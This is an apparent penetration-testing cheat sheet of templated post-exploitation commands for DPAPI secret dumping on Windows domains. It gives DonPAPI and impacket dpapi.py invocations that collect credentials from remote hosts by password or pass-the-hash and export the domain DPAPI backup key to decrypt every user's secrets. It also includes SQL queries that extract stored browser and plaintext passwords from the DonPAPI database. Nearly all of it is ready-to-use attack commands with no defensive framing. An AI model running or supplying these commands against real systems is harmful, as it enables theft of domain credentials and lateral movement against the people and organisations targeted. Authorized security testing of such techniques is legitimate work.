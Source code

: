 # DPAPI

% dpapi, windows, donpapi

## DonPAPI - Dump all - pwd
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi collect -u <user> -p '<password>' -d <domain> -t <target>
```

## DonPAPI - Dump all - hashes
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi collect -u <user> -d <domain> -H '<hashes>' -t <target>
```

## DonPAPI - Dump domain backup key
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi collect -u <user> -p '<password>' -d <domain> -t <target> --fetch-pvk
```

## Get Domain BackupKeys
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
dpapi.py backupkeys --export -t <domain>/<da_user>@<dc_ip> -hashes '<hashes>'
```

##  DonPAPI - Dump all with backup key

#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi collect --pvkfile domain_backupkey.pvk  -u <user> -p '<password>' -d <domain> -t <target> --hashes '<hashes>'
```

## DonPAPI - Start GUI

#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi gui
```

## DonPAPI DB - Browser pwd not empty

```
select username, password, target from credz where type like 'browser%' and password IS NOT '' and password is not ' ';
```

## DonPAPI DB - List type of credz

```
select distinct type from credz;
```


## DonPAPI DB - Select credz whith clean password 

```
select username, password,target from credz where password REGEXP '^[\x20-\x7EÀ-ÖØ-öø-ÿ]+$' and length(password) between 4 and 30;
```

